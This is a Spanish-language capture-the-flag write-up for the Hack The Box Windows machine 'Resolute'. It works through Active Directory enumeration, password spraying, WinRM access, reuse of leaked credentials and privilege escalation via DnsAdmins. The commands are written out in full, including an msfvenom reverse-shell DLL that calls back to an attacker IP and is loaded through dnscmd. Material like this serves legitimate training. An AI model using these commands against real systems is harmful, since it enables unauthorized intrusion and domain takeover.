# Resolute

`Resolute` es una máquina Windows de dificultad fácil que cuenta con Active Directory. El enlace anónimo de Active Directory se utiliza para obtener una contraseña que los administradores de sistemas establecen para las nuevas cuentas de usuario, aunque parece que la contraseña de esa cuenta ha cambiado desde entonces. Un password spraying revela que esta contraseña todavía está en uso para otra cuenta de usuario de dominio, lo que nos da acceso al sistema a través de `WinRM`.

Se descubre un registro de transcripción de PowerShell, que ha capturado las credenciales pasadas en la línea de comandos. Esto se utiliza para moverse lateralmente a un usuario que es miembro del grupo `DnsAdmins`. Este grupo tiene la capacidad de especificar que el servicio DNS Server cargue una DLL de complemento. Después de reiniciar el servicio DNS, logramos la ejecución del comando en el controlador de dominio en el contexto de `NT_AUTHORITY\SYSTEM`.

<figure><figcaption></figcaption></figure>

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina Resolute.

```bash
nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.169 -oG allPorts
```

<figure><figcaption></figcaption></figure>

Lanzaremos una serie de scripts básicos para intentar buscar vulnerabilidades en los puertos que hemos encotrado expuestos.


```bash
nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49668,49671,49676,49677,49688,49907 10.10.10.169 -oN targeted
```


<figure><figcaption></figcaption></figure>

Comprobaremos el nombre del dominio con el cual nos enfrentamos a través del siguiente comando.

```bash
ldapsearch -x -H ldap://10.10.10.169 -s base | grep defaultNamingContext
```

<figure><figcaption></figcaption></figure>

Procederemos a añadir la entrada en nuestro archivo **/etc/hosts**

```bash
catnp /etc/hosts | grep 10.10.10.169
```

<figure><figcaption></figcaption></figure>

## Users Enumeration

### RPC Enumeration (NSrpcenum)

Como hemos visto que el RPC se encontraba expuesto (puerto 593), probaremos de intentar conectarnos haciendo uso de la herramienta **rpcclient** a través de un null session. Confirmamos que podemos acceder sin problemas.

```bash
rpcclient -U "" 10.10.10.169 -N
```

<figure><figcaption></figcaption></figure>

Procederemos a hacer uso de la herramienta de **NSrpcenum** para realizar una enumeración del RPC a través de una null session.

El primer paso será enumerar todos los usuarios del dominio y guardarlos en "users.txt".


```bash
NSrpcenum -e DUsers -i 10.10.10.169 | awk '/\| /{print $2}' | grep -vE '^\s*$' > users.txt

catnp users.txt
```


<figure><figcaption></figcaption></figure>

Verificaremos usuariso que dispongan de descripción, nos damos cuenta que aparece que el usuario "marko" tiene una descripción indicando que la contraseña es: _Welcome123!_

```bash
NSrpcenum -e DUsersInfo -i 10.10.10.169
```

<figure><figcaption></figcaption></figure>

## Checking credentials found with Netexec

Con las credenciales encontradas, probaremos de comprobar si son válidas para el usuario "marko". Verificamos que las credenciales no son correctas para dicho usuario.

```bash
netexec smb 10.10.10.169 -u 'marko' -p 'Welcome123!'
```

<figure><figcaption></figcaption></figure>

Probaremos de comprobar si esta contraseña es válida para uno de los usuarios que tenemos en nuestro archivo "users.txt".

Verificamos que la contraseña es válida para la usuaria "melanie".

```bash
netexec smb 10.10.10.169 -u users.txt -p 'Welcome123!' --continue-on-success
```

<figure><figcaption></figcaption></figure>

Guardaremos las credenciales en nuestro archivo "credentials.txt".

```bash
catnp credentials.txt
```

<figure><figcaption></figcaption></figure>

## AS-REP Roast Attack (GetNPUsers) - \[FAILED]

Debido que disponemos de una buena cantidad de usuarios válidos, probaremos de realizar un **AS-REP Roasting Attack** de usuarios que dispongan del (DONT\_REQ\_PREAUTH) de Kerberos.

En este caso, ninguno disponía de dicha configuración.

```bash
impacket-GetNPUsers -no-pass -usersfile users.txt megabank.local/ 2>/dev/null
```

<figure><figcaption></figcaption></figure>

## Kerberoast Attack (GetUserSPNs) - \[FAILED]

Teniendo un usuario válido con sus credenciales, procederemos a intentar realizar un **Kerberoast Attack**, comprobamos que no obtenemos ningún Ticket Granting Service (TGS).

```bash
impacket-GetUserSPNs -dc-ip 10.10.10.169 megabank.local/melanie -request
```

<figure><figcaption></figcaption></figure>

## ShellOver Evil-WinRM

Verificaremos si con estas credenciales podemos conectarnos al WinRM del equipo, comprobamos que nos aparece como **Pwn3d** lo que nos confirma el acceso.

```bash
netexec winrm 10.10.10.169 -u 'melanie'  -p 'Welcome123!'
```

<figure><figcaption></figcaption></figure>

Procederemos a conectarnos con las credenciales de "melanie" y verificaremos la flag de **user.txt**.

```bash
evil-winrm -i 10.10.10.169 -u 'melanie'  -p 'Welcome123!'
```

<figure><figcaption></figcaption></figure>

## Leakage Information

Revisando el equipo comprobamos que habían dos directorios ocultos con un archivo oculto.


```powershell
cd C:\

dir -Force

cd PSTranscripts

dir -Force

cd 20191203

dir -Force

type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```


<figure><figcaption></figcaption></figure>

Comprobando el contenido del archivo .txt, comprobamos que aparece una línea de ejecución de comandos en la cual el usuario "ryan" estaba realizando el mapeo de una unidad de red y aparece su respectiva contraseña en texto plano.

<figure><figcaption></figcaption></figure>

## User Pivoting

### Checking credentials found of ryan user

Teniendo supuestamente unas nuevas credenciales, probaremos de comprobar si podemos pivotar entre usuarios.

Comprobamos que las credenciale son válidas, disponemos del mismo acceso de los recursos SMB y de que podemos conectarnos al WinRM.

```bash
netexec smb 10.10.10.169 -u 'ryan'  -p 'Serv3r4Admin4cc123!'

netexec smb 10.10.10.169 -u 'ryan'  -p 'Serv3r4Admin4cc123!' --shares

netexec winrm 10.10.10.169 -u 'ryan'  -p 'Serv3r4Admin4cc123!'
```

<figure><figcaption></figcaption></figure>

### ShellOver Evil-WinRM

Procederemos a conectarnos con el usuario "ryan" al servicio de WinRM a través de **evil-winrm**.

```bash
evil-winrm -i 10.10.10.169 -u 'ryan'  -p 'Serv3r4Admin4cc123!'
```

<figure><figcaption></figcaption></figure>

## Privilege Escalation

### Abusing DnsAdmins Group - dnscmd - \[LOLBAS]

Revisando los permisos y grupos del usuario "ryan", nos damos cuenta que somos miembros del grupo "DnsAdmins".

El formar parte de este grupo, puede ser un vector para realizar una escalada de privilegios.

Windows PrivEsc: [DnsAdmins to DomainAdmin](https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/) | LOLBAS: [Dnscmd.exe](https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/)

```powershell
whoami /all
```

<figure><figcaption></figcaption></figure>

### Creating a malicious DLL an injecting it into the DNS service

En nuestra terminal de Kali, procederemos a crear un payload con **msfvenom** de una Reverse Shell a nuestro equipo en formato DLL, de nombre de archivo le pondremos "pwn.dll".

Habilitaremos un servidor SMB del directorio actual de trabajo (donde tengamos el DLL malicioso) y des de otra terminal nos pondremos en escucha por el puerto configurado en la Reverse Shell.

Des de la terminal de Windows que disponemos, procederemos a realizar la explotación del PrivEsc.

Agregaremos una DLL especialmente diseñada como complemento del servicio DNS, que será nuestro payload. Una vez realizada la configuración, deberemos de parar el servicio DNS y volverlo a iniciar para así obtener la Reverse Shell en nuestra terminal.

Es posible que debamos repetir el proceso de parar e iniciar el servicio de DNS varias veces hasta obtener la Reverse Shell.

Comprobamos que nos hemos autenticado como usuario Administrator y verificamos la flag de **root.txt**.


```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 -f dll -o pwn.dll

smbserver.py smbFolder $(pwd) -smb2support

rlwrap nc -nlvp 443
```



```powershell
dnscmd.exe /config /serverlevelplugindll \\10.10.14.13\smbFolder\pwn.dll

sc.exe stop dns

sc.exe start dns
```


<figure><figcaption></figcaption></figure>
